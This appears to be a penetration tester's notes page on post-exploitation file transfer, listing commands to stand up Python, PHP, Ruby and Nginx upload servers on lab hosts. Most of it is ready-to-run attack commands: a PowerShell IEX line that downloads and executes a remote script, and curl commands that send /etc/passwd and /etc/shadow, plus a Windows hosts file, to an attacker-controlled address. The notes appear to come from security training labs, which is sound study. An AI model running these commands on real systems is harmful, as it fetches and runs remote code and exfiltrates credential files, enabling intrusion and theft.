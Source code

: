 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
---
```


## Python 

```shell-session
python3 -m http.server --directory /home/user/target_files 443
```

### Upload Server

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

```shell-session
pip3 install uploadserver
```

```shell-session
python3 -m uploadserver
```

See [[CRT (Certificate Files)]]

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### PowerShell Script to Upload a File to Python Upload Server

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

#### Linux Upload Multiple Files 

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Python 2.7

```shell-session
python2.7 -m SimpleHTTPServer
```
# NPM

```
http-server
```

# PHP 

```
php -S 127.0.0.1:8000
```

# Ruby

```shell-session
ruby -run -ehttpd . -p8000
```


# Nginx - Enabling PUT

A good alternative for transferring files to `Apache` is [Nginx](https://www.nginx.com/resources/wiki/) because the configuration is less complicated, and the module system does not lead to security issues as `Apache` can.
#### Change the Owner to www-data

```shell-session
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

#### Create Nginx Configuration File

Create the Nginx configuration file by creating the file `/etc/nginx/sites-available/upload.conf` with the contents:

```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

#### Symlink our Site to the sites-enabled Directory

```shell-session

AlexanderOrley@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

#### Start Nginx

```shell-session
AlexanderOrley@htb[/htb]$ sudo systemctl restart nginx.service
```

If we get any error messages, check `/var/log/nginx/error.log`

#### Remove NginxDefault Configuration

```shell-session
AlexanderOrley@htb[/htb]$ sudo rm /etc/nginx/sites-enabled/default
```

#### Upload File Using cURL

```shell-session
AlexanderOrley@htb[/htb]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

```shell-session
AlexanderOrley@htb[/htb]$ sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 
```